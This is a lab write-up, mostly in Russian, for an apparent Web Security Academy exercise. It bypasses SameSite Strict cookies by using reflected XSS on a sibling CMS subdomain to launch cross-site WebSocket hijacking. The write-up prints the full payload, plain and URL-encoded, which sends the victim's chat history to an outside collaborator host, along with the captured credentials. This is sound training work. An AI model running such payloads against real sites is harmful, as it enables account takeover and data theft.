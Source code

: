 # SameSite Strict bypass via sibling domain
PRACTITIONER

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.

To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

If you haven't done so already, we recommend completing our topic on WebSocket vulnerabilities before attempting this lab.

## Решение
Если отправить агенту эксплойт, эксплуатирующий [Cross-Site WebSocket Hijacking](../../websockets/02-cross-site-websocket-hijacking/), то это сработает, но полученная история переписки будет пуста, потому что кукис `session` установлен с атрибутом `SameSite:"Strict"` и не передаётся при подключении по ws с сайта эксплойт-сервера.

Запрос некоторых ресурсов приводит к ответу с заголовком Access-Control-Allow-Origin:
```
GET /resources/images/rating5.png HTTP/2
Host: 0aba0058033694d48030bc4d00a8007c.web-security-academy.net
Cookie: session=qjrxdWw1i97H5OY7xp3fkkHDpCcUBl15
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aba0058033694d48030bc4d00a8007c.web-security-academy.net/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```
```
HTTP/2 200 OK
Content-Type: image/png
Cache-Control: public, max-age=3600
Access-Control-Allow-Origin: https://cms-0aba0058033694d48030bc4d00a8007c.web-security-academy.net
X-Frame-Options: SAMEORIGIN
Content-Length: 495

PNG
```
Значение этого заголовка содержит ссылку на сайт https://cms-0aba0058033694d48030bc4d00a8007c.web-security-academy.net, который содержит форму логина с уязвимостью Reflected XSS.

POST-запрос отправки формы можно преобразовать в GET-запрос:

`https://cms-0aba0058033694d48030bc4d00a8007c.web-security-academy.net/login?username=<script>alert(1)</script>=test`

В качестве нагрузки использую скрипт подключения по ws, пропущенный через URL-кодирование:
```
<script>
const ws = new WebSocket('wss://0aba0058033694d48030bc4d00a8007c.web-security-academy.net/chat');
ws.onopen = function() {
  ws.send('READY');
};
ws.onmessage=function(event) {
  fetch('https://9x7kj2th9mc2plpuej4rfecgm7sygr4g.oastify.com', { method: 'POST', mode: 'no-cors', body: event.data });
};
</script>
```
`https://cms-0aba0058033694d48030bc4d00a8007c.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%63%6f%6e%73%74%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%62%61%30%30%35%38%30%33%33%36%39%34%64%34%38%30%33%30%62%63%34%64%30%30%61%38%30%30%37%63%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%77%73%2e%73%65%6e%64%28%27%52%45%41%44%59%27%29%3b%0a%7d%3b%0a%77%73%2e%6f%6e%6d%65%73%73%61%67%65%3d%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%39%78%37%6b%6a%32%74%68%39%6d%63%32%70%6c%70%75%65%6a%34%72%66%65%63%67%6d%37%73%79%67%72%34%67%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%20%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%20%7d%29%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=test`

В коллабораторе получаю историю переписки:
```
POST / HTTP/1.1
Host: 9x7kj2th9mc2plpuej4rfecgm7sygr4g.oastify.com
Connection: keep-alive
Content-Length: 82
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://cms-0aba0058033694d48030bc4d00a8007c.web-security-academy.net
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: https://cms-0aba0058033694d48030bc4d00a8007c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

{"user":"Hal Pline","content":"No problem carlos, it&apos;s 90ogwae4suavytud2r0e"}
```
Логинюсь как carlos:90ogwae4suavytud2r0e. Задание выполнено.
